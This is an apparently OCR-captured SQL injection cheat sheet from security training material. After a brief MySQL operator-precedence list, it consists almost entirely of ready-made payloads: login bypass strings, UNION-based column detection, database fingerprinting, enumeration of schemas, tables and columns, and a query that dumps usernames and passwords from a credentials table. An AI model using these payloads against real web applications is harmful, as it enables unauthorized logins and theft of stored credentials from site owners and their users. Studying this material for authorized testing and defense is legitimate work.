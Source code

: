 ## MySQL Operator Precedence

1. Division (/), Multiplication (*), and Modulus (%)
2. Addition (+) and Subtraction (-)
3. Comparison (=, >, <, <=, >=, !=, LIKE)
4. NOT (!)
5. AND (&&)
6. OR (||)

## SQL Injection

### Payload	Description

#### Auth Bypass

| Payload                                                                 | Description                 |
|-------------------------------------------------------------------------|-----------------------------|
| `admin' or '1'='1`                                                      | Basic Auth Bypass           |
| `admin')-- -`                                                           | Basic Auth Bypass With comments |

#### Auth Bypass Payloads

#### Union Injection

| Payload                                                                 | Description                 |
|-------------------------------------------------------------------------|-----------------------------|
| `' order by 1-- -`                                                      | Detect number of columns using order by |
| `cn' UNION select 1,2,3-- -`                                            | Detect number of columns using Union injection |
| `cn' UNION select 1,@@version,3,4-- -`                                  | Basic Union injection       |
| `UNION select username, 2, 3, 4 from passwords-- -`                     | Union injection for 4 columns |

#### DB Enumeration

| Payload                                                                 | Description                 |
|-------------------------------------------------------------------------|-----------------------------|
| `SELECT @@version`                                                      | Fingerprint MySQL with query output |
| `SELECT SLEEP(5)`                                                       | Fingerprint MySQL with no output |
| `cn' UNION select 1,database(),2,3-- -`                                 | Current database name       |
| `cn' UNION select 1,schema_name,3,4 from INFORMATION_SCHEMA.SCHEMATA-- -` | List all databases          |
| `cn' UNION select 1,TABLE_NAME,TABLE_SCHEMA,4 from INFORMATION_SCHEMA.TABLES where table_schema='dev'-- -` | List all tables in a specific database |
| `cn' UNION select 1,COLUMN_NAME,TABLE_NAME,TABLE_SCHEMA from INFORMATION_SCHEMA.COLUMNS where table_name='credentials'-- -` | List all columns in a specific table |
| `cn' UNION select 1, username, password, 4 from dev.credentials-- -`    | Dump data from a table in another database |
